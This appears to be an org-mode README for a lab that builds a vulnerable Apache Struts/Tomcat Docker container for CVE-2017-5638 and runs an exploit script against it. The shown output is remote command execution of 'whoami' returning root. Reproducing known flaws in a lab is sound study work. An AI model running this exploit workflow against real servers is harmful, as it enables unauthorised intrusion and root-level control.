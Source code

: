 #+TITLE: CVE-2017-5638
Attack container and exploit

* Build container
  #+begin_src python :results output
% make build
  #+end_src

* Run the vulnerable tomcat server
  #+begin_src python :results output
% make run
docker run -d vulnstruts
8d1de3d1b4a5d862d829e4d8d50fcc3fbe7e79534705c55cd2b574b58c220b63
  #+end_src

* Run the exploit

  First, get the IP address of the vulnerable tomcat server docker container 
  #+begin_src python :results output
docker inspect 8d1de3d1b4a5d862d829e4d8d50fcc3fbe7e79534705c55cd2b574b58c220b63

"IPAddress": "172.17.0.6",
  #+end_src

  Then run the exploit against the IP address
  #+begin_src python :results output
% make exploit TARGET_IP=<IP address>

python exploitS2-045-cmd.py 172.17.0.6:8080 whoami
[Execute]: whoami

root

  #+end_src

* Tools used
  - Debian snapshots repository and our tool to build a Debian jessie image on 20170301. The tool to build the image will be released later because it contains author's information.
  - piesecurity/apache-struts2-CVE-2017-5638
